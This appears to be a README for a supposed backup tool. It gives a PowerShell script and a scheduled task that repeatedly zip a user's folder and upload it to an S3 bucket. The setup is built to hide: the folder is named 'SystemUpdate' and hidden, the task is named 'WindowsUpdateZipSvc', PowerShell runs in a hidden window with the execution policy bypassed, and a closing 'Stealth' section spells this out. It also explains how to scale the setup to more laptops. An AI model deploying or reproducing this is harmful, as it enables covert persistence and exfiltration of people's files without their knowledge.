 # Maksiti Backups — README

## 1) AWS (once)
- Create IAM user: **`backup-user`** (programmatic access only).
- Attach policy granting access **only** to bucket **`arbrim-backups-test`** (ListBucket, Put/Get/DeleteObject).
- Save the access key CSV.

> (Optional) As an admin, add an S3 **Lifecycle rule** to expire `zips/` after 7 days (CLI step below).

---

## 2) Windows setup (per laptop)

### 2.1 Install & configure AWS CLI
Download and install:  
`https://awscli.amazonaws.com/AWSCLIV2.msi`

Verify:
```powershell
aws --version
```

Configure:
```powershell
aws configure
```
Use:
```
Access Key ID: <from backup-user CSV>
Secret Access Key: <from backup-user CSV>
Default region: eu-central-1
Output format: json
```

### 2.2 Create hidden script folder (user-writable; no admin needed)
```powershell
New-Item -ItemType Directory -Path "C:\Users\<USER>\AppData\Local\SystemUpdate" -Force | Out-Null
attrib +h "C:\Users\<USER>\AppData\Local\SystemUpdate"
```

### 2.3 Pick backup source and S3 layout
```
Local folder to back up (edit per machine):
C:\Users\<USER>\Desktop\maksitest

S3 bucket:
arbrim-backups-test

Zips stored under (auto by script):
s3://arbrim-backups-test/zips/<COMPUTER>/
```

### 2.4 Save the PowerShell script
Path:
```
C:\Users\<USER>\AppData\Local\SystemUpdate\WinZipBackup.ps1
```

Content:
```powershell
# --- EDIT THESE TWO PER MACHINE ---
$SrcPath = "C:\Users\<USER>\Desktop\maksitest"   # Folder to back up
$Bucket  = "arbrim-backups-test"                     # S3 bucket
# ----------------------------------

$Computer  = $env:COMPUTERNAME
$UserName  = $env:USERNAME
$Stamp     = (Get-Date).ToString("yyyy-MM-dd_HH-mm")
$Prefix    = "zips/$Computer"
$ZipName   = "${Computer}-${UserName}_${Stamp}.zip"
$TempZip   = Join-Path $env:TEMP $ZipName

if (-not (Test-Path $SrcPath)) { exit 0 }

try {
    if (Test-Path $TempZip) { Remove-Item $TempZip -Force -ErrorAction SilentlyContinue }
    Compress-Archive -Path $SrcPath -DestinationPath $TempZip -CompressionLevel Optimal -Force
} catch { exit 0 }

$S3Key = "$Prefix/$ZipName"
$null = aws s3 cp "$TempZip" "s3://$Bucket/$S3Key" --sse AES256 2>$null
Remove-Item $TempZip -Force -ErrorAction SilentlyContinue

```

### 2.5 Schedule it (silent run at multipletimes)
```powershell
$action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-NoLogo -NonInteractive -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Users\arbri\AppData\Local\SystemUpdate\WinZipBackup.ps1'

$trigs = @(
    (New-ScheduledTaskTrigger -Daily -At (Get-Date "11:00")),
    (New-ScheduledTaskTrigger -Daily -At (Get-Date "13:00")),
    (New-ScheduledTaskTrigger -Daily -At (Get-Date "15:00"))
)

$settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries

# Register with highest privileges under your user
Register-ScheduledTask -TaskName 'WindowsUpdateZipSvc' -Action $action -Trigger $trigs -Settings $settings -RunLevel Highest -User 'arbri'
```

Verify it worked
```
schtasks /Query /TN "WindowsUpdateZipSvc" /V /FO LIST
```
Test it without waiting
```
schtasks /Run /TN "WindowsUpdateZipSvc"
```
---


## 4) Restore & notes

**Restore:** download the desired zip from  
`s3://arbrim-backups-test/zips/<COMPUTER>/<COMPUTER>-<USER>_YYYY-MM-DD_HH-mm.zip`  
and unzip.

**Scale to more laptops:** copy `WinZipBackup.ps1`, edit only `$SrcPath`, run the same `schtasks` command (path includes the user’s profile). Lifecycle rule applies to all machines automatically.

**Stealth:** script runs with hidden PowerShell; folder is hidden; task name looks system-ish.

Verify task is configured daily
```
schtasks /Query /TN "WindowsUpdateZipSvc" /V /FO LIST
```
